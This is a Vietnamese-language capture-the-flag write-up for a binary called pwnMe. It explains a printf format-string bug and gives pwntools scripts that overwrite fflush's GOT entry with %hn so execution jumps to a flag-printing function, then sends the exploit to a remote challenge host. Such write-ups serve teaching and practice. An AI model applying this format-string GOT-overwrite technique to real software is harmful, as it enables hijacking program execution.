







# Writeup pwnMe


Binary 64 bit, xem thử với IDA



Hàm main có lỗi string format ở hàm printf(), ngoài ra có một hàm getFlag() in ra flag:



Chạy thử với input đầu vào là chuỗi đặc tả để leak info:



Có thể thấy (đếm) được chuỗi nhập vào (buffer s) nằm ở param thứ 44, lưu ý tránh nhầm với buffer format vì  buffer này được tạo với hàm snprintf và parse buffer s vào với format specifier "%s" khiến cho buffer này không chèn được địa chỉ của x64 vào cuối (có nhiều null bytes).

Nắm được thông tin về vị trí trên stack của buffer nhằm chèn địa chỉ cần ghi đè vào trong payload với format specifier "%n". Mục tiêu là ghi đè địa chỉ của hàm fflush trong GOT table nhằm chuyển hướng thực thi chương trình sang hàm getFlag()

Tìm địa chỉ của fflush trong GOT table:



Payload dài 200 ký tự có dạng: ```[pad]%[number]x%[address_param_index]$n[pad][got_fflush_addr]```
Vì input buffer S nằm ở param 44 và đặt địa chỉ fflush trong GOT table cố định ở cuối, mỗi param có độ dài 8 bytes -> địa chỉ nằm ở param thứ 68.

Debug chương trình với gdb, run với breakpoint ở hàm fflush trong main và kiểm tra qua với payload
```py
from pwn import *

p = process('./pwnMe')
#p = remote('8.tcp.ngrok.io', 17159)
gdb.attach(p, gdbscript = "b *main+169")
p.recvline()
payload = 'AAAABBBB'
# more padding needed here
payload += '%68$hn'
payload = payload.ljust(192)
payload += p64(0x600c48).decode('utf-8')

p.sendline(payload)
p.interactive()
```


Dùng "%hn" để ghi đè 2 bytes tại địa chỉ chỉ định, tính được cần in thêm 0x7cc-0x2a=1954 bytes với printf, hoàn thiện payload

```py
from pwn import *

#p = process('./pwnMe')
p = remote('8.tcp.ngrok.io', 17159)
#gdb.attach(p, gdbscript = "b *main+169")
p.recvline()
payload = 'AAAABBBB'
payload += '%1954x'
payload += '%68$hn'
payload = payload.ljust(192)
payload += p64(0x600c48).decode('utf-8')

p.sendline(payload)
p.interactive()
```

## Flag: ```ISPCTF{s1mpl3_fmtstr}```


